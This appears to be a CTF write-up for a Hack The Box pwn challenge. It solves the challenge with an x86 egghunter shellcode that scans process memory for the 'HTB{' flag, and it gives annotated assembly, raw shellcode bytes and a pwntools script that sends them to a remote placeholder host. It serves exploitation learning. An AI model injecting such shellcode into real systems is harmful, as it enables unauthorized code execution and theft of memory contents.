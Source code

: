 - the program is allocating memory for the flag to store it and after corrupt it, so the only solution to this challenge is to scan process memory for 'HTB{' pattern.
- we will face one problem which is if the memory page we want to read has READ permission or not. we'll use `access` SYSCALL to check that.
![pwn_hunting-copy and corrupt the flag](https://github.com/0xPrimo/CTFs/assets/93877982/58e8b19c-861b-46e1-9d1f-ea70d0f185bc)

- we'll use `egghunter` shellcode to find the pattern (egg) and print it using `write` SYSCALL.
```
	31 C0               	xor     eax, eax
	89 C7               	mov     edi, eax
	BF 48 54 42 7B          mov     edi, 7B425448h
	
	            		next_page:                           
	
	66 81 CA FF 0F          or      dx, 0FFFh
	
	                    next_address:
	
	42                      inc     edx
	60                      pusha
	31 C9                   xor     ecx, ecx        ; mode
	8D 5A 04                lea     ebx, [edx+4]    ; pathname
	B0 21                   mov     al, 21h ; '!'
	CD 80                   int     80h             ; LINUX 	sys_access
	3C F2                   cmp     al, 0F2h
	61                      popa
	74 EB                   jz      short next_page
	39 3A                   cmp     [edx], edi
	75 EC                   jnz     short next_address


	89 D1                   mov     ecx, edx        ; addr
	31 C0                   xor     eax, eax
	89 C3                   mov     ebx, eax
	89 DA                   mov     edx, ebx

						print_flag:
 	B0 04                   mov     al, 4
 	B3 01                   mov     bl, 1           ; fd
	B2 01                   mov     dl, 1
	CD 80                   int     80h             ; LINUX - sys_write
	41                      inc     ecx
	38 31                   cmp     [ecx], dh
	75 F3                   jnz     short print_flag
	C3                      retn
```
- python script

```
from pwn import *

shellcode = b'\x31\xc0\x89\xc7\xbf\x48\x54\x42\x7b\x66\x81\xca\xff\x0f\x42\x60\x31\xc9\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xeb\x39\x3a\x75\xec\x89\xd1\x31\xc0\x89\xc3\x89\xda\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x41\x38\x31\x75\xf3\xc3'


context.update(arch="i386", os="linux")


r = remote("<ip>", <port>)

r.send(shellcode)

flag = r.recv()
log.success(str(flag))
r.close()
```
